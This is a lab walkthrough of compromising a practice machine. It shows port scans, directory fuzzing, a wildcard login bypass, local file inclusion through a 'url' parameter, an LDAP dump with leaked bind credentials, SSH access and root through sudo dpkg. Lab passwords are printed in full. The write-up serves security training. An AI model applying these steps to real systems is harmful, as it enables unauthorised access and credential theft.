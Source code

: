 *By Praveen Kumar Sharma*

<hr>

For me the IP of the machine is : **192.168.110.173**

Lets first try pinging it :

![[Pasted image 20240812195202.png]]

Its online!!

<hr>

### Port Scanning :

#### All Port Scanning 

```
nmap -p- -n -Pn -T5 --min-rate=10000 192.168.110.173 -o allPortScan.txt
```

![[Pasted image 20240812195431.png]]

>[!Open Ports]
>PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
389/tcp open  ldap
636/tcp open  ldapssl

Lets try a aggressive scan on these ports 

#### Aggressive Scan :

```
nmap -sC -sV -A -T5 -p 22,80,389,636 192.168.110.173 -o aggresiveScan.txt
```

![[Pasted image 20240812195654.png]]

>[!Aggressive Scan]
>PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.9p1 Debian 10+deb10u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 16:70:13:77:22:f9:68:78:40:0d:21:76:c1:50:54:23 (RSA)
|   256 a8:06:23:d0:93:18:7d:7a:6b:05:77:8d:8b:c9:ec:02 (ECDSA)
|_  256 52:c0:83:18:f4:c7:38:65:5a:ce:97:66:f3:75:68:4c (ED25519)
80/tcp  open  http     Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
389/tcp open  ldap     OpenLDAP 2.2.X - 2.3.X
636/tcp open  ldapssl?
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Looks we do have some http action on port 80 lets try directory fuzzing 

<hr>

### Directory Fuzzing :

```
gobuster dir -u 192.168.110.173/ -w /usr/share/wordlists/dirb/common.txt -o directories.txt
```

![[Pasted image 20240812202250.png]]

>[!Directories]
>/admin.php            (Status: 200) [Size: 1650]
/index.html           (Status: 200) [Size: 207]
/static               (Status: 301) [Size: 319] [--> http://192.168.110.173/static/]


Lets get this web application underway 

<hr>

### Web Application :

![[Pasted image 20240812202500.png]]


Lets try the /static page here 

![[Pasted image 20240812202540.png]]

Nothing here looks like

Lets try that /admin.php

![[Pasted image 20240812202625.png]]

A login page looks like
I tried a lot of combination here but when i tried * and * it worked 

![[Pasted image 20240812202723.png]]

Lets try this portraits page here

![[Pasted image 20240812202908.png]]

Notice the URL we might have a LFI here

![[Pasted image 20240812203014.png]]

We do have a LFI i want to see that admin.php page tho first

i type in this http://192.168.110.173/home.php?url=admin.php

Go in source here 

![[Pasted image 20240812203112.png]]

>[!LDap Enumeration]
Username : cn=admin,dc=symfonos,dc=local
Attribute : qMDdyZh3cT6eeAWD


<hr>

### Gaining Access : 

I found this nmap nse script here that i can leverage to exploit this furthur here is the link : https://nmap.org/nsedoc/scripts/ldap-search.html

![[Pasted image 20240812203419.png]]

Lets try running this with our attrib and username we found 

here is the whole script btw 

```
nmap -p 389 --script ldap-search --script-args 'ldap.username="cn=admin,dc=symfonos,dc=local",ldap.password=qMDdyZh3cT6eeAWD,' 192.168.110.173
```

![[Pasted image 20240812203826.png]]
![[Pasted image 20240812203841.png]]

We have creds here

>[!User Creds]
>Username : zeus
>Password : cetkKf4wCuHC9FET


Lets try SSHing in 
and we can ssh in 

![[Pasted image 20240812204037.png]]

<hr>

### Vertical PrivEsc

Lets see what we can run using sudo : sudo -l

![[Pasted image 20240812204212.png]]

Lets check GTFObins for a way to privEsc
: https://gtfobins.github.io/gtfobins/dpkg/

![[Pasted image 20240812204321.png]]

This is the command we are gonna use to get root 

run this command as a whole and we get root 

![[Pasted image 20240812204410.png]]

Here is the proof 

![[Pasted image 20240812204450.png]]







